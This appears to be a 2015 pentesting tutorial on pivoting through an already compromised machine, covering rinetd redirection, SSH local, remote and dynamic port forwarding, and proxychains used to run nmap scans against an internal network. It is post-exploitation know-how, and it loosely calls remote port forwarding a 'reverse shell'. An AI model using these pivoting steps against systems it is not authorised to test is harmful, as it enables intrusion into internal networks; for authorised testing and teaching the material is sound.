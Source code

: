 ```yaml
---
date: 2015-09-17
title: Port forwarding and tunneling
tags:
- ssh
- post exploitation
- pivot
see_also:
  -
    link: Hak5 videos
    url: https://www.youtube.com/watch?v=Wuu_n0Pvbsk
  -
    link: Port forwarding tutoriel on linux-france (fr)
    url: http://www.linux-france.org/prj/edu/archinet/systeme/ch13s04.html
---
```

As a pentester, you might be able to take control of systems that have a direct access but you also might be able to test the internal network and check the machine who are inside a subnetwork. 

For that task you'll have to use an already compromised machine as a bridge/gateway, this technic is called "pivot". 
Depending of the context, different solutions exist to perform that task.

## Rinetd

The easiest one. First you need to install Rinetd:

```none
aptitude search rinetd
p   rinetd                                     - Internet TCP redirection server</pre>
```

Then edit the `/etc/rinetd.conf` file:

```none
# bindadress    bindport  connectaddress  connectport
192.168.0.10    80        91.121.139.22   8080
```

Restart Rinetd and from now, all incoming traffic on `192.168.0.10` on port `80` will be redirected to `91.121.139.22` on port `8080`. 
This can be usefull if a firewall is restricting outbound traffic on certain port.

<!--more-->

## SSH

### Local port forwarding

`ssh -L <local port to listen>:<remote host>:<remote port> <gateway>`

Similar to port forwarding with Rinetd, this technic still have some tints. The traffic is encrypted but only between the local machine and the gateway. 
If the remote host is `localhost` then it refers to the gateway. Example:

```none
ssh -L 8080:192.168.1.25:80 bob@192.168.0.10
```

This open a tunnel between the local machine on port `8080` to `192.168.1.25` on port `80` trough the ssh server `192.168.0.10` connected with user `bob`. 
Connexion from other machines are not accepted by default, to enable this feature you have to use the `-g` option.

### Remote port forwarding

`ssh -R <remote port to bind>:<local host>:<local port> <gateway>`

Note that this must be launched on the already compromised machine ! In this case if the local host is `localhost` then it refers to the local machine. Example:

```none
ssh -R 1234:192.168.1.25:80 bob@192.168.0.10
```

This pop a reverse shell on `192.168.0.10` connected with user `bob` and create a tunnel on port `1234` wich will receive all traffic from `192.168.1.25` on port `80`.

## ProxyChains

As a standalone, Proxychains is mainly used to anonymize traffic but combined with SSH it can be used to perform dynamic port forwarding.

```none
$ aptitude search proxychains
p   libproxychains-dev                - proxy chains -- shared library (development)
p   libproxychains3                   - proxy chains -- shared library (runtime)
p   proxychains                       - proxy chains - redirect connections through proxy servers</pre>
```

When the install is finished, edit `/etc/proxychains.conf` as here:

```none
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Then we can create a tunnel wich will forward all incoming traffic to any host in the internal network trough the compromised machine which runs the ssh server. Syntax:

`ssh -D <local proxy> <target>`

Example:

```none
$ ssh -D 127.0.0.1:9050 bob@192.168.0.10
```

From now we can perform scans or anything else on every port on every machine in the DMZ with Proxychains:

```none
$ proxychains nmap -p 139,445 192.168.1.100-200
```


## External resources

- [Hak5 videos](https://www.youtube.com/watch?v=Wuu_n0Pvbsk)
- [Port forwarding tutoriel on linux-france (fr)](http://www.linux-france.org/prj/edu/archinet/systeme/ch13s04.html)

